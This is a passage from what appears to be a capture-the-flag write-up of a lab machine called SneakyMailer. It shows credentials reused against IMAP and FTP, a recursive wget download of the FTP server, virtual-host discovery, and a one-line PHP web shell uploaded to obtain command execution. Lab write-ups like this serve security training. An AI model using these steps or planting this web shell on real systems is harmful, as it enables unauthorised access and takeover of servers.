 ```
                                                                   
Hello low                                                          
                                                                   
                                                                   
Your current task is to install, test and then erase every python module you 
find in our PyPI service, let me know if you have any inconvenience.                                                                  
                                                                                                                                      
)                                                                                                                                     
A1 OK FETCH completed. 
```

Once again, we'll see what we can log into using the credentials from the first email. Imap instantly closes our connection when logging in with this user, which isn't default behavior, so this password may still be valid:

```
$ telnet 10.10.10.197 143
Trying 10.10.10.197...
Connected to 10.10.10.197.
Escape character is '^]'.
* OK [CAPABILITY IMAP4rev1 UIDPLUS CHILDREN NAMESPACE THREAD=ORDEREDSUBJECT THREAD=REFERENCES SORT QUOTA IDLE ACL ACL2=UNION STARTTLS ENABLE UTF8=ACCEPT] Courier-IMAP ready. Copyright 1998-2018 Double Precision, Inc.  See COPYING for distribution information.
A1 LOGIN developer "m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C"
* BYE [ALERT] Fatal error: No such file or directory: No such file or directory
Connection closed by foreign host.
```

FTP allows us to connect with these credentials:

**developer:m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C**

We can recursively loot the entire directory using wget:

```
$ wget -r --user="developer" --password='m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C' ftp://sneakymailer.htb
```

We can see that this is a development version of the website, so we'll use the virtual-host-discovery tool to see if there are any virtualhosts/subdomains on this machine::

```
$ ruby scan.rb --ip=10.10.10.197 --host=sneakycorp.htb |grep 200
Found: dev.sneakycorp.htb (200)
Found: sneakycorp.htb (200)
```

It looks like dev.sneakycorp.htb exists, which makes sense with the /dev folder we found on the ftp server. We can add this to our /etc/hosts, upload a simple webshell to the ftp server in /dev, and access it through our browser to return a shell to ourselves:

shell.php:
```
<?php system($_GET['cmd']); ?>
```
